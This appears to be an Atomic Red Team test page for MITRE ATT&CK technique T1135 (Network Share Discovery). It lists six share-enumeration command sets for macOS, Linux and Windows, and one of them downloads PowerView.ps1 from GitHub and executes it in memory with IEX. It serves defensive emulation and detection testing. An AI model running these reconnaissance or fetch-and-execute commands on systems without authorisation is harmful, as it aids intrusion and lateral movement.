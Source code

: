 # T1135 - Network Share Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1135)
<blockquote>Adversaries may look for folders and drives shared on remote systems as a means of identifying sources of information to gather as a precursor for Collection and to identify potential systems of interest for Lateral Movement. Networks often contain shared network drives and folders that enable users to access file directories on various systems across a network. 

File sharing over a Windows network occurs over the SMB protocol. (Citation: Wikipedia Shared Resource) (Citation: TechNet Shared Folder) [Net](https://attack.mitre.org/software/S0039) can be used to query a remote system for available shared drives using the <code>net view \\\\remotesystem</code> command. It can also be used to query shared drives on the local system using <code>net share</code>.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Network Share Discovery](#atomic-test-1---network-share-discovery)

- [Atomic Test #2 - Network Share Discovery - linux](#atomic-test-2---network-share-discovery---linux)

- [Atomic Test #3 - Network Share Discovery command prompt](#atomic-test-3---network-share-discovery-command-prompt)

- [Atomic Test #4 - Network Share Discovery PowerShell](#atomic-test-4---network-share-discovery-powershell)

- [Atomic Test #5 - View available share drives](#atomic-test-5---view-available-share-drives)

- [Atomic Test #6 - Share Discovery with PowerView](#atomic-test-6---share-discovery-with-powerview)


<br/>

## Atomic Test #1 - Network Share Discovery

auto_generated_guid: f94b5ad9-911c-4eff-9718-fd21899db4f7

Network Share Discovery
**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | computer1|


#### Attack Commands: Run with `sh`! 


```sh
df -aH
smbutil view -g //#{computer_name}
showmount #{computer_name}
```






<br/>
<br/>

## Atomic Test #2 - Network Share Discovery - linux

auto_generated_guid: 875805bc-9e86-4e87-be86-3a5527315cae

Network Share Discovery using smbstatus
**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| package_checker | Package checking command. Debian - dpkg -s samba | string | rpm -q samba|
| package_installer | Package installer command. Debian - apt install samba | string | yum install -y samba|


#### Attack Commands: Run with `bash`! 


```bash
smbstatus --shares
```




#### Dependencies:  Run with `bash`!
##### Description: Package with smbstatus (samba) must exist on device
##### Check Prereq Commands:
```bash
if #{package_checker} > /dev/null; then exit 0; else exit 1; fi
```
##### Get Prereq Commands:
```bash
sudo #{package_installer}
```




<br/>
<br/>

## Atomic Test #3 - Network Share Discovery command prompt

auto_generated_guid: 20f1097d-81c1-405c-8380-32174d493bbb

Network Share Discovery utilizing the command prompt. The computer name variable may need to be modified to point to a different host
Upon execution avalaible network shares will be displayed in the powershell session
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| computer_name | Computer name to find a mount on. | string | localhost|


#### Attack Commands: Run with `command_prompt`! 


```cmd
net view \\#{computer_name}
```






<br/>
<br/>

## Atomic Test #4 - Network Share Discovery PowerShell

auto_generated_guid: 1b0814d1-bb24-402d-9615-1b20c50733fb

Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host
Upon execution, avalaible network shares will be displayed in the powershell session
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
get-smbshare
```






<br/>
<br/>

## Atomic Test #5 - View available share drives

auto_generated_guid: ab39a04f-0c93-4540-9ff2-83f862c385ae

View information about all of the resources that are shared on the local computer Upon execution, avalaible share drives will be displayed in the powershell session
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
net share
```






<br/>
<br/>

## Atomic Test #6 - Share Discovery with PowerView

auto_generated_guid: b1636f0a-ba82-435c-b699-0d78794d8bfd

Enumerate Domain Shares the current user has access. Upon execution, progress info about each share being scanned will be displayed.
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Find-DomainShare -CheckShareAccess -Verbose
```






<br/>
